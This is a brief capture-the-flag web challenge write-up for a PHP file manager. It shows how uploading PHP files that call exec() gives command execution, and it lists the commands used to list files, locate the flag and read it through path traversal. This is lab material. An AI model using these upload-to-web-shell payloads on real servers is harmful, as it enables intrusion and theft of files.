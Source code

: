 # Superior File Manager
## Web

> My friend insists his file manager is the best in the market.
> Can you prove him wrong?
>
> http://128.199.77.173:13001

### Files
- N/A

### Analysis
The website has an image upload and runs on PHP as inferred from the HTTP response

### Solution
1. Upload a PHP script
   ```php
   <?php echo exec("ls -la"); ?>
   ```
2. View the file after uploading
   The PHP file will be executed.
3. Accessing the flag
   ```php
   <?php echo exec("locate flag.txt"); ?>
   ```
4. Getting the flag
   ```php
   <?php echo exec("cat ../../../../../flag.txt"); ?>
   ```
